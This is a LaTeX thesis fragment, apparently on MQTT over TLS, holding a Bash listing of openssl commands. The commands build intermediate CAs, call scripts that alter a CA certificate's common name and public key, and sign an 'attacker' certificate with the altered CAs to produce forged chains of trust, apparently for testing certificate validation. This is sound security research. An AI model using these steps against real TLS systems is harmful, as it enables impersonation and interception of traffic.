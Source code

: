 \documentclass[binding=0.6cm,noexaminfo]{sapthesis}
\begin{document}
\begin{lstlisting}[language=Bash]
# Second Intermediate CA
openssl genrsa -out second-level-ca-2/ca.key 2048
openssl req -new -nodes -key second-level-ca-2/ca.key \
-sha256 \
-out second-level-ca-2/intermediateCACertificateRequest.pem \
-subj "/C=it/ST=State/L=City/CN=Second Intermediate Certificate Authority" \
-batch

openssl ca -config ca.conf -out second-level-ca-2/ca.pem \
-in second-level-ca-2/intermediateCACertificateRequest.pem \
-extfile intermediateCAExtensions.conf \
-batch

openssl req -new -nodes -key attacker-certificate/attackerKey.pem \
-sha256 \
-out attacker-certificate-signed-by-altered-int-ca/attackerCertificateRequest.pem \
-subj "/C=it/ST=State/L=City/CN=$CONTAINER_IP" \
-batch

# Intermediate CA Alt 1
cp second-level-ca-2/ca.key second-level-ca-alt1-common-name/ca.key
openssl x509 -in second-level-ca-2/ca.pem \
-outform DER \
-out second-level-ca-2/ca.der

openssl x509 -in second-level-ca/ca.pem \
-outform DER \
-out second-level-ca/ca.der

~/.venv/mqtt-over-tls/bin/python3 scriptsToAlterCertificate/alterCommonName.py \
'second-level-ca-2/ca.der' \
'second-level-ca-alt1-common-name/ca.der' \
'second-level-ca/ca.der'

openssl x509 -in second-level-ca-alt1-common-name/ca.der \
-inform DER \
-out second-level-ca-alt1-common-name/ca.pem

openssl ca -config second-level-ca-alt1-common-name.conf -out attacker-certificate-signed-by-altered-int-ca/attackerCertificate-alt1.pem \
-in attacker-certificate-signed-by-altered-int-ca/attackerCertificateRequest.pem \
-batch

touch second-level-ca-alt1-common-name/ca-chain-of-trust.pem
cat second-level-ca-alt1-common-name/ca.pem ca/ca.pem > second-level-ca-alt1-common-name/ca-chain-of-trust.pem

# Intermediate CA Alt 2
cp second-level-ca-2/ca.key second-level-ca-alt2-public-key/ca.key

~/.venv/mqtt-over-tls/bin/python3 scriptsToAlterCertificate/alterPublicKey.py \
'second-level-ca/ca.der' \
'second-level-ca-alt2-public-key/ca.der' \
'second-level-ca-2/ca.der'

openssl x509 -in second-level-ca-alt2-public-key/ca.der \
-inform DER \
-out second-level-ca-alt2-public-key/ca.pem

openssl ca -config second-level-ca-alt2-public-key.conf -out attacker-certificate-signed-by-altered-int-ca/attackerCertificate-alt2.pem \
-in attacker-certificate-signed-by-altered-int-ca/attackerCertificateRequest.pem \
-batch


\end{lstlisting}
\end{document}
